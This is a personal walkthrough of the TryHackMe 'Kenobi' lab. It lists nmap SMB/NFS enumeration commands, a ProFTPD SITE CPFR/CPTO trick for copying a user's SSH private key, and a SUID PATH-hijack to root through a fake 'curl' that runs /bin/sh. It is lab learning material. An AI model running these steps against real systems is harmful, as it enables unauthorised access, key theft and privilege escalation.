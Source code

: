 # 17. Kenobi 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**

#categoty/windows 
#other/tool
#other/GAtactics 
#other/richInfo
#privilegeEscalation/moderate 
#privilegeEscalation/SUID



## Gaining Access 😉

- nmap script scan on 445th port which runs microsoft-ds/smb
- smbclient enumeration. reffer command [[#Important commands 🔥]]--> 2
- logged in with user password of attacking machine
- just typed `?` for help
- files can be downloaded with `smbget` command [[#Important commands 🔥]] -> 3
- nmap enumeration on rpcbind port 111. command [[#Important commands 🔥]]-->4 
- copied ssh key from /home/kenobi/.ssh/id_rsa to var/tmp using SITE CPFR & SITE CPTO command
- mkdir /mnt/kenobiNFS & `sudo mount ip:/var /mnt/kenobiNFS`
- `sudo mount 10.10.203.188:/var /mnt/kenobiNFS`
- copied id_rsa to present directory & connected with ssh 



## Maintaining Access 🥷
- /usr/bin/menu found with find -u=s mode
	- SUID
- running binary without sudo 
- that dosen't made more sense
- `strings /usr/bin/menu`
- output
	```
	curl -I localhost  
	uname -r  
	ifconfig
	```
	in this, running binary like curl and uname without full path `/usr/bin/curl`
- cd to tmp
- created new file named curl with content, reffer [[#Important commands 🔥]]-->6
- changed permission of curl & added `/tmp` to path
- executed `/usr/bin/menu`<--> officially root now!



## Important commands 🔥
1. nmap scan
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
	```
2. smbclient
	```
	smbclient //10.10.203.188/anonymous
	```
3. sbmget
	```
	smbget \-R smb://10.10.203.188/anonymous
	```
4. rcpbind command
	```
	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.203.188
	```
5. find syntax to search SUID
	```
	find / -perm -u=s -type f 2>/dev/null
	```
6. curl on tmp
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	```
	
	

	
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- netcat to connect any port `nc <ip> <port> `  eg: `nc 10.10.203.188 21`
- make permission 600 for ssh keys: id_rsa
- -rw(==SUID==)rw(==SGID==)rw(stickybit)--> SUID permission
	- ==SUID==
		user execute file with file owner permission
	- ==SGID==
		user execute with pemission of group owner
		File created in directory gets the same group owner.
	- ==Stickybit==
		Users are prevented from deleting files from other users.
- executable can be open with `strings` as human readable
		
		


--------------------------------
**By Nibras Muhammed** 🤓🖥️






